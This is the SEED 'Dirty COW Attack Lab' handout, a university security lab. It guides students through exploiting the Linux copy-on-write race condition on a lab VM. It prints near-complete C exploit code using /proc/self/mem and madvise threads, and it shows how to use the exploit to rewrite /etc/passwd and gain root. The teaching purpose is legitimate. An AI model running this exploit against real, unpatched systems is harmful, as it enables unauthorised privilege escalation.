 # Dirty COW Attack Lab

```
Copyright © 2017 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International
License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or
reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the
Linuxkernel since September 2007, and was discovered and exploited in October 2016. The vulnerability
affects allLinux-based operating systems, including Android, and its consequence is very severe: attackers
can gain the root privilege by exploiting the vulnerability. The vulnerability resides in the code of copy-on-
write insideLinuxkernel. By exploiting this vulnerability, attackers can modify any protected file, even
though these files are only readable to them.
The objective of this lab is for students to gain the hands-on experience on the Dirty COW attack,
understand the race condition vulnerability exploited by the attack, and gain a deeper understanding of the
general race condition security problems. In this lab, students will exploit the Dirty COW race condition
vulnerability to gain the root privilege.

Readings and videos. Detailed coverage of the Dirty COW attack can be found in the following:

- Chapter 8 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
    Wenliang Du. See details athttps://www.handsonsecurity.net.
- Section 7 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang
    Du. See details athttps://www.handsonsecurity.net/video.html.

Lab environment. You can perform the lab exercise on the SEED VM provided by the Cloudlabs.

## 2 Task 1: Modify a Dummy Read-Only File

The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

### 2.1 Create a Dummy File

We first need to select a target file. Although this file can be any read-only file in the system, we will use
a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please
create a file calledzzzin the root directory, change its permission to read-only for normal users, and put
some random content into the file using an editor such asgedit.


$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz
111111222222333333
$ ls -l /zzz
-rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
bash: /zzz: Permission denied

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail,
because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the
system, we can find a way to write to this file. Our objective is to replace the pattern"222222"with
"******".

### 2.2 Set Up the Memory Mapping Thread

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
sudo wget https://github.com/CloudLabs-MOC/CloudLabs-SEED/blob/main/Software%20Security/Dirty%20COW/Lab%20files/Labsetup.zip
```

```
sudo unzip Labsetup.zip
```
The program has three threads:the main thread, the write thread, and the madvise thread. The main thread maps/zzzto memory, finds
where the pattern"222222"is, and then creates two threads to exploit the Dirty COW race condition
vulnerability in the OS kernel.

Listing 1: The main thread
/* cow_attack.c (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
pthread_t pth1,pth2;
struct stat st;
int file_size;

```
// Open the target file in the read-only mode.
int f=open("/zzz", O_RDONLY);
```
```
// Map the file to COW memory using MAP_PRIVATE.
fstat(f, &st);
file_size = st.st_size;
map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
```
```
// Find the position of the target area
char *position = strstr(map, "222222"); ¿
```
```
// We have to do the attack using two threads.
pthread_create(&pth1, NULL, madviseThread, (void *)file_size); ¡
```

```
pthread_create(&pth2, NULL, writeThread, position); ¬
```
// Wait for the threads to finish.
pthread_join(pth1, NULL);
pthread_join(pth2, NULL);
return 0;
}

In the above code, we need to find where the pattern"222222"is. We use a string function called
strstr()to find where"222222"is in the mapped memory (Line¿). We then start two threads:
madviseThread(Line¡) andwriteThread(Line¬).

### 2.3 Set Up the write Thread

The job of thewritethread listed in the following is to replace the string"222222"in the memory with
"******". Since the mapped memory is of COW type, this thread alone will only be able to modify the
contents in a copy of the mapped memory, which will not cause any change to the underlying/zzzfile.

Listing 2: Thewritethread
/* cow_attack.c (the write thread) */

void *writeThread(void*arg)
{
char *content= "******";
off_t offset = (off_t) arg;

int f=open("/proc/self/mem", O_RDWR);
while(1) {
// Move the file pointer to the corresponding position.
lseek(f, offset, SEEK_SET);
// Write to the memory.
write(f, content, strlen(content));
}
}

### 2.4 The madvise Thread

Themadvisethread does only one thing: discarding the private copy of the mapped memory, so the page
table can point back to the original mapped memory.

Listing 3: Themadvisethread
/* cow_attack.c (the madvise thread) */

void *madviseThread(void*arg)
{
int file_size = (int) arg;
while(1){
madvise(map, file_size, MADV_DONTNEED);
}
}


### 2.5 Launch the Attack

If thewrite()and themadvise()system calls are invoked alternatively, i.e., one is invoked only after
the other is finished, thewriteoperation will always be performed on the private copy, and we will never
be able to modify the target file. The only way for the attack to succeed is to perform themadvise()
system call while thewrite()system call is still running. We cannot always achieve that, so we need
to try many times. As long as the probability is not extremely low, we have a chance. That is why in the
threads, we run the two system calls in an infinite loop. Compile thecowattack.cand run it for a few
seconds. If your attack is successful, you should be able to see a modified/zzzfile. Report your results in
the lab report and explain how you are able to achieve that.

$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose the
/etc/passwdfile as our target file. This file is world-readable, but non-root users cannot modify it.
The file contains the user account information, one record for each user. Assume that our user name is
seed. The following lines show the records for root andseed:

root:x:0:0:root:/root:/bin/bash
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash

Each of the above record contains seven colon-separated fields. Our interest is on the third field, which
specifies the user ID (UID) value assigned to a user. UID is the primary basis for access control inLinux,
so this value is critical to security. The root user’s UID field contains a special value 0; that is what makes
it the superuser, not its name. Any user with UID 0 is treated by the system as root, regardless of what user
name he or she has. Theseeduser’s ID is only 1000 , so it does not have the root privilege. However,
if we can change the value to 0 , we can turn it into root. We will exploit the Dirty COW vulnerability to
achieve this goal.
In our experiment, we will not use theseedaccount, because this account is used for most of the
experiments in this book; if we forget to change the UID back after the experiment, other experiments will
be affected. Instead, we create a new account calledcharlie, and we will turn this normal user into root
using the Dirty COW attack. Adding a new account can be achieved using theaddusercommand. After
the account is created, a new record will be added to/etc/passwd. See the following:

$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash

We suggest that you save a copy of the/etc/passwdfile, just in case you make a mistake and corrupt
this file. An alternative is to take a snapshot of your VM before working on this lab, so you can always roll
back if the VM got corrupted.

Task: You need to modify thecharlie’s entry in/etc/passwd, so the third field is changed from
1001 to 0000 , essentially turningcharlieinto a root account. The file is not writable tocharlie, but


we can use the Dirty COW attack to write to this file. You can modify thecowattack.cprogram from
Task 1 to achieve this goal.
After your attack is successful, if you switch user tocharlie, you should be able to see the#sign at
the shell prompt, which is an indicator of the root shell. If you run theidcommand, you should be able to
see that you have gained the root privilege.

seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
**uid=0(root)** gid=1001(charlie) groups=0(root),1001(charlie)

## 4 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


